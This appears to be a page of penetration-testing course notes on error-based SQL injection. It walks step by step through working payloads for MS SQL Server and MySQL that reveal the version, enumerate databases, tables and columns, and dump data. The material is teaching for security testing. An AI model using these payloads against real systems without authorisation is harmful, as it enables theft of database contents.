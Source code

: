 # 5.3.1 Error-Based SQLi

## Exploiting Error-Based SQL Injection

Error-based SQL injections are an advanced technique to extract data from a database by triggering errors that reveal information within the error messages. This method is particularly fast and effective and is supported by various database management systems (DBMS) such as Oracle, PostgreSQL, and MS SQL Server.

### **MS SQL Server Error-based Exploitation**

**MS SQL Server Version Extraction:** To begin, it's crucial to identify the version of the MS SQL Server, as different versions may have different default column names in the master database. The `CAST` technique is employed to trigger a type conversion error, which reveals the database version. For example:

```sql
9999999 or 1 in (SELECT TOP 1 CAST(@@version as varchar(4096))); --
```

This payload, when injected into the vulnerable parameter, will cause an error message that includes the database version.

**Enumerating Databases:** After identifying the version, the next step is to enumerate the databases accessible to the current user. This is done using the `db_name()` function within a loop:

```sql
9999999 or 1 in (SELECT TOP 1 CAST (db_name(1) as varchar(4096))); --
```

Incrementing the argument of `db_name()` allows iterating through the available databases.

**Enumerating Database Tables:** Once databases are enumerated, the next step is to find the tables in a particular database:

```sql
9999999 or 1 in (SELECT TOP 1 CAST(name as varchar(4096)) FROM <database_name>..sysobjects WHERE xtype='U' and name NOT IN ('')); --
```

Here, the `xtype='U'` condition ensures that only user-defined tables are considered.

**Enumerating Columns:** After identifying tables, the columns within those tables need to be enumerated:

```sql
9999 or 1 in (SELECT TOP 1 CAST (<db_name>..syscolumns.name as varchar(4096)) FROM <db_name>..syscolumns,<db_name>..sysobjects WHERE <db_name>..syscolumns.id=<db_name>..sysobjects.id AND  <db_name>..sysobjects.name=<table_name> AND <db_name>..syscolumns.name NOT IN ('')); --
```

This query retrieves the column names for a specific table in the specified database.

**Dumping Data:** Finally, with knowledge of the database structure, data can be dumped using a similar technique:

```sql
9999999 or 1 in (SELECT TOP 1 CAST(<column_name> as varchar(4096)) FROM <database_name>..<table_name> WHERE <column_name> NOT IN ('')); -- -
```

This query retrieves the actual content of the specified column in the specified table.

### **MySQL Error-Based SQLi Exploitation**

To exploit error-based SQL injection on MySQL, the `GROUP BY` statement is utilized. An example payload skeleton is as follows:

```sql
SELECT 1,2 UNION SELECT COUNT(*), CONCAT(<information_to_extract>, floor(rand(0)*2)) AS x FROM information_schema.tables GROUP BY x;
```

For example, to extract the database version:

```sql
SELECT COUNT(*), CONCAT(version(), floor(rand(0)*2)) AS x FROM information_schema.tables GROUP BY x;
```

